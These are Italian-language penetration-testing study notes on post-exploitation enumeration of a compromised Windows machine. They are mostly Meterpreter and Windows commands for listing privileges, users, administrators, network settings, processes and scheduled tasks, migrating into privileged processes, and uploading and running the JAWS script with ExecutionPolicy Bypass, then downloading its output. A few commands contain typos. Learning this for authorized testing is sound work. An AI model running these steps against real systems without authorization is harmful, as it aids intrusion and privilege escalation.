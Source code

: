 
# Windows local enumeration
Quando otteniamo l'accesso ad un sistema windows, la prima fase é quella che consiste nel enumerare il sistema ottenendo l'id del utente attuale e informazioni sul sistema. 
```bash
meterpreter > getuid
meterpreter > sysinfo
meterpreter > cd C:/Windows/System32
meterpreter > cat eula.txt                               # file che da altre informazioni sul sistema operativo 
meterpreter > shell
#comandi windows
hostname
systeminfo
wimc qfe get Caption,Description,HotFixID,InstalledOn     # per avere altre informazioni sugli hotfixs (patch)

```

### Enumerare Utenti e Gruppi
Serve per vedere l'utente attuale e che permessi ha e di che gruppo fa parte. <br>
possiamo anche ottenere gli utenti che fanno parte del gruppo amministratori per poter tentare di exploitarli. <br> 
```bash
meterpreter > getprivs                                    # per visualizzare gli attuali permessi
meterpreter >  background
use post/windows/gather/enum_logged_on_users              # modulo per enumerare gli utenti su un target windows
set session 1
run
sessions 1
meterpreter > shell
# enumerazione utenti manuale
whoami
whoami /privs                                              # enumerare i permessi attuali
query user                                                 # per visualizzare gli utenti collegati e quando
net users                                                  # enumerare tutti gli utenti nel sistema
net user administrator                                     # ottenere informazioni sul account amministratore (possiamo mettere qualisasi nome utente)
net localgroup                                             # enumerare tutti i gruppi presenti sul sistema
net localgroup administrators                              # visualizzare i componenti del gruppo administrators (possiamo mettere qualsiasi nome gruppo)
```

### Enumerare le informazioni di rete
Abbiamo anche bisogno di poter enumerare gli attuali indirizzi per poter identificare le impostazioni di rete interne e i servizi in esecuzione sulle porte TCP/UDP.
```bash
meterpreter > shell
ipconfig
ipconfig /all
route print                  # visualizzare la routing table
arp -a                       # aprire la arp table e visualizzare gli altri host collegati alla stessa rete del target
netsat -ano                  # per visualizzare la lista dei servizi attualmente in esecuzione o in ascolto
netsh firewall show state
#oppure
netsh advfirewall show allprofile
```

### Enumerare i processi
Enumerare i processi é importante per poter migrare la sessione meterpreter verso un processo con privileggi superiori e quindi effettuare un privilege escalation, e per poter identificare delle task con debbolezze nella configurazione per poterle exploitare. <br>
```bash
meterpreter > ps                          # mostra i processi attualmente in esecuzione e dovviamo fare caso al PID e al USER che sia NT AUTHORITY
meterpreter > pgrep <PROCESSNAME>         # per cercare il pid di un determianto processo. Preferiamo sempre cercare il processo explorer.exe
meterpreter > migrate <PID>
meterpreter > shell
net start                                  # mostrare i servizi (non sono processi, i servizi lavorano in background)
wmic service list brief                   # mostra i servizi in esecuzione
tasklist /svc                            # mostra i processi in esecuzione sotto un determinato processo
schtasks /query /fo LIST /v               # mostra le sheduled tasks 
```

### Automatizzare la local enumeration
Esistono alcuni scripts che permettono di enumerare tutte le infgormazioni ottenute precedentemente in modo automatico <br>
Uno script interessante é JAWS (Just Another Windows (enumeration) Script) che é possibile scaricare tramite questo <a href="https://github.com/411Hall/JAWS">link</a> <br>
JAWS é uno script che permette di identificare potenziali vettori per un privilege escalation ed é scritto in PowerShell 2.0 quindi dovrebbe poter girare su tutte le versioni superiori di windows 7. <br>
per poterlo usare basta copiare il raw del file .ps1 e incollarlo in un file .ps1 sulla nostra macchina kali per poi inniettarlo sul target tramite una sessione meterpreter
```bash
meterpreter > cd C:/Temp
meterpreter > upload path/di/JAWS.ps1
meterpreter > shell
dir                           # per confermare che il file é stato uploadato con successo
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-ENUM.txt
# questo comando indica a windows che vogliamo eseguire tramite powershell lo script JAWS e salvare i risultati nel file JAWS-ENUM.txt
# torniamo ora su meterpreter, premendo CTRL+C, per poter scaricare il file creato da JAWS
meterpreter > download JAWS-ENUM.txt
```
